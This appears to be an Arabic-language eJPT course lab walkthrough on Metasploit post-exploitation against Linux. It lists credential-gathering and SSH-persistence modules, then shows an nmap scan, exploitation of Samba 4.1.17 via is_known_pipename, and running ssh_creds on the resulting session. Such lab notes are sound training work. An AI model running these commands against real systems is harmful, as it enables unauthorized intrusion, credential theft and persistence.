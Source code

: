 # Session 8 (ejpt) - Day 8
##  Host & Network Penetration Testing: The Metasploit Framework (MSF) part2

السلام عليكم ورحمة الله وبركاته  

اليوم باذن الله راح نحل اخر لابين في هذا الجزء وراح ندخل على جزء جديد باذن الله  

---  

راح نبداء باللاب الاول الي هو  

Linux: Post Exploitation Lab II 
-------------------------------|  

طبعا في هذا اللاب راح نشوف بعض الموديولز الي ممكن نشغلها بعد اختراق التارقت  

ف راح نشوف بعض الموديولز او اهمها بالاصح ونترك الباقي لكم للي حاب يجربها  
```bash
All Modules of Post Exploitation For Linux  

post/multi/gather/ssh_creds  
post/multi/gather/docker_creds  
post/linux/gather/hashdump  
post/linux/gather/ecryptfs_creds  
post/linux/gather/enum_psk  
post/linux/gather/enum_xchat  
post/linux/gather/phpmyadmin_credsteal  
post/linux/gather/pptpd_chap_secrets  
post/linux/manage/sshkey_persistence  
```  

طبعا بالبداية راح نفحص التارقت وطبعا بما انه ماعطانا ايبي التارقت عندنا خيارين يا نفحص كامل الشبكة او نزيد على اخر ديجت 1  

حنا راح نستخدم الطريقة الثانيه بما انه اسرع  
```bash
nmap -sV -sC 192.91.98.3  
```  

ونشوف انه مقتوح بورت samba 4.1.17وهذا غالبا مصاب بثغرة ولها موديول على الميتاسبلويت خلونا نستغل مباشرة بما انه مكرر  
```bash
use exploit/linux/samba/is_known_pipename  
set RHOST 192.91.98.3  
check  
exploit -z [to exploited and put the session on background]  
```  

والان استغلينا الخدمة وصار معنا سيشن رقمها 1 راح نبدا الان نستخدم بعض الموديولز المميزه والي تفيدنا كثير في هذي النقطه  

خلونا نجرب الان اول موديول معنا  
```bash
use post/multi/gather/ssh_creds  
set SESSION 1  
run  
```  
